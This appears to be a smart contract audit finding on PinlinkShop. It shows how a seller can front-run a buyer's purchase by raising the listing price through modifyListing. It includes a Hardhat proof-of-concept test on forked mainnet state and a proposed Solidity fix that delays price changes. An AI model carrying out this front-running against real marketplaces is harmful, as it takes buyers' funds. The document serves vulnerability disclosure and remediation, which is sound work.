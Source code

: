 Custom Gunmetal Woodpecker

Medium

# Inadequate Front-Running Protection in Purchase: Seller Will Cause PIN Loss for Buyers

#### Summary
The lack of robust front-running protection in `PinlinkShop.purchase()` will cause a financial loss in PIN tokens for buyers as a seller will front-run their purchase transaction by increasing the listing price via `modifyListing()`. Although a dev comment states "the maxTotalPinAmount protects from slippage and also from a malicious sellers frontrunning the purchase and increasing the price", there is no mechanism to actually prevent the seller from extracting the maximum value from the slippage buffer. Furthermore, if users are able to interact with the store via a front-end interface without having full knowledge of the contract's functionality, they would be even less likely to realize that a higher slippage tolerance in turn makes them more susceptible to be front run by the seller.

#### Root Cause
In [`pinlinkShop.sol:288`](https://github.com/sherlock-audit/2025-03-pinlink-rwa-tokenized-depin-marketplace/blob/main/marketplace-contracts/src/marketplaces/pinlinkShop.sol#L288), the `purchase` function relies solely on `maxTotalPinAmount` for front running protection, which can be bypassed by a seller calling `modifyListing()` to raise `usdPricePerFraction` and extract the additional value that is intended as price slippage protection, as there is no delay for seller price changes to take effect.

#### Internal Pre-conditions
1. Seller needs to have an active listing in `PinlinkShop` with a set `usdPricePerFraction` (e.g., 1200e18 USD).
2. Buyer needs to submit a `purchase` transaction with a `maxTotalPinAmount` based on the current listing price (e.g., 6500e18 PIN for 5 assets).

#### External Pre-conditions
1. Gas price needs to allow the seller’s `modifyListing` transaction to outpace the buyer’s `purchase` transaction in the mempool (e.g., seller uses 50 gwei vs. buyer’s 25 gwei).

#### Attack Path
1. Seller (e.g., Bob) lists 20 fractional assets for 1200e18 USD each, expecting ~6,000e18 PIN for 5 assets (at 1 PIN = 1 USD).
2. Buyer (e.g., Alice) calls `purchase(bobListingId, 5, 6,500e18)` with a gas price of 25 gwei, intending to buy 5 assets.
3. Seller observes Alice’s transaction in the mempool and calls `modifyListing(bobListingId, 1300e18, 0)` with a higher gas price of 50 gwei, increasing the price to 1300e18 USD per asset.
4. Miner prioritizes Bob’s transaction, updating the listing price to 1300e18 USD; Alice’s purchase executes at the new price, costing 6,500e18 PIN instead of 6,000e18, losing 500e18 PIN.

#### Impact
Buyers who cannot anticipate or prevent seller front-running will incur a substantial loss, e.g. approximately 500e18 PIN (~500 USD at 1 USD/PIN) per 5 assets purchased as in the provided PoC. The seller gains this excess PIN at the buyer's expense.

#### PoC
```javascript
const { expect } = require("chai");
const { ethers, network } = require("hardhat");

describe("PinlinkShop Front-Run Test", function () {
    let fractions, pshop, oracle, pin, admin, alice, bob;
    let initialListingId, listingId;

    const ASSET1 = 111;
    const ALICE_STARTING_BALANCE = ethers.parseEther("50000");
    const PIN_ADDRESS = "0x2e44f3f609ff5aA4819B323FD74690f07C3607c4";
    const USDC_ADDRESS = "0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48";

    beforeEach(async function () {
        [admin, alice, bob] = await ethers.getSigners();

        const CentralizedOracle = await ethers.getContractFactory("CentralizedOracle", admin);
        oracle = await CentralizedOracle.deploy(PIN_ADDRESS, ethers.parseEther("1"));

        const FractionalAssets = await ethers.getContractFactory("FractionalAssets", admin);
        fractions = await FractionalAssets.deploy("https://metadata.pinlink.dev/metadata/0xaaaa/");

        const PinlinkShop = await ethers.getContractFactory("PinlinkShop", admin);
        pshop = await PinlinkShop.deploy(PIN_ADDRESS, await oracle.getAddress(), USDC_ADDRESS);

        pin = await ethers.getContractAt("lib/forge-std/src/interfaces/IERC20.sol:IERC20", PIN_ADDRESS);

        const pinWhale = await ethers.getImpersonatedSigner("0x0f4B899a315Ea6e5eA3a00488353a3D9c16C2358");
        await network.provider.send("hardhat_setBalance", [
            await pinWhale.getAddress(),
            "0x14DEF204818180000" // 10 ETH for gas
        ]);

        await pin.connect(pinWhale).transfer(await alice.getAddress(), ALICE_STARTING_BALANCE);
        await pin.connect(pinWhale).transfer(await bob.getAddress(), ethers.parseEther("50000"));

        await pin.connect(alice).approve(await pshop.getAddress(), ethers.MaxUint256);
        await pin.connect(bob).approve(await pshop.getAddress(), ethers.MaxUint256);

        await fractions.mint(ASSET1, await admin.getAddress(), 100);
        await fractions.setApprovalForAll(await pshop.getAddress(), true);

        const supply = 20;
        await pshop.connect(admin).enableAsset(await fractions.getAddress(), ASSET1, await admin.getAddress());
        const listTx = await pshop.connect(admin).list(
            await fractions.getAddress(),
            ASSET1,
            supply,
            ethers.parseEther("1000"),
            (await ethers.provider.getBlock("latest")).timestamp + 7 * 24 * 60 * 60
        );
        const listReceipt = await listTx.wait();
        initialListingId = listReceipt.logs[0].args[0];

        const pinAmount = await pshop.getQuoteInTokens(initialListingId, supply);
        await pshop.connect(bob).purchase(initialListingId, supply, pinAmount);
        const bobListTx = await pshop.connect(bob).list(
            await fractions.getAddress(),
            ASSET1,
            supply,
            ethers.parseEther("1200"),
            (await ethers.provider.getBlock("latest")).timestamp + 3 * 24 * 60 * 60
        );
        const bobListReceipt = await bobListTx.wait();
        listingId = bobListReceipt.logs[0].args[0];
    });

    it("should allow Bob to front-run Alice's purchase with higher gas price", async function () {
        await ethers.provider.send("evm_setAutomine", [false]);

        await pshop.connect(alice).purchase(listingId, 5, ethers.parseEther("6500"), {
            gasPrice: ethers.parseUnits("25", "gwei"),
            gasLimit: 250000
        });

        const newPrice = ethers.parseEther("1300");
        await pshop.connect(bob).modifyListing(listingId, newPrice, 0, {
            gasPrice: ethers.parseUnits("50", "gwei"),
            gasLimit: 500000
        });

        await ethers.provider.send("evm_mine");

        const listing = await pshop.getListing(listingId);
        expect(listing.usdPricePerFraction).to.equal(newPrice, "Bob's price update should have been applied");

        const [aliceStakedFractions] = await pshop.getBalances(await fractions.getAddress(), ASSET1, await alice.getAddress());
        expect(aliceStakedFractions).to.equal(5, "Alice should have 5 staked fractions");

        const aliceNewPINBalance = await pin.balanceOf(await alice.getAddress());
        const usdTotalPrice = newPrice * BigInt(5);
        const expectedPinCost = await oracle.convertFromUsd(PIN_ADDRESS, usdTotalPrice);
        expect(ALICE_STARTING_BALANCE - aliceNewPINBalance).to.be.equal(expectedPinCost, "Alice should have paid the higher price");
    });
});
```

#### Mitigation

Either add a very short buffer in which calls to purchase would be reverted after the most recent price change. Or as shown below, require the seller to finalize price changes within a certain timeframe, and optionally, add a cool down period to prevent price change spamming.

```solidity
uint256 public priceUpdateTimestamp; // Timestamp when price can be finalized, also tracks last attempt
uint256 public pendingPrice;
uint256 constant PRICE_UPDATE_DELAY = 10 minutes;
uint256 constant PRICE_UPDATE_EXPIRATION = 1 hours; 
uint256 constant PRICE_CHANGE_COOLDOWN = 1 days;

function modifyListing(bytes32 listingId, uint256 usdPricePerFraction, uint256 newDeadline) external onlySeller(listingId) {
    if (usdPricePerFraction > 0) {
        // Enforce 24-hour cooldown since last price change attempt using priceUpdateTimestamp
        require(block.timestamp >= priceUpdateTimestamp + PRICE_CHANGE_COOLDOWN, "PriceChangeCooldownActive");
        pendingPrice = usdPricePerFraction;
        priceUpdateTimestamp = block.timestamp + PRICE_UPDATE_DELAY;
    }
    if (newDeadline > 0) {
        require(newDeadline > block.timestamp, "DeadlineHasExpiredAlready");
        _listings[listingId].deadline = newDeadline;
        emit DeadlineExtended(listingId, newDeadline);
    }
}

function finalizePriceUpdate(bytes32 listingId) external onlySeller(listingId) {
    require(block.timestamp >= priceUpdateTimestamp, "PriceUpdateNotReady");
    require(block.timestamp < priceUpdateTimestamp + PRICE_UPDATE_EXPIRATION, "PriceUpdateExpired");
    _listings[listingId].usdPricePerFraction = pendingPrice;
    emit PriceUpdated(listingId, pendingPrice);
}
```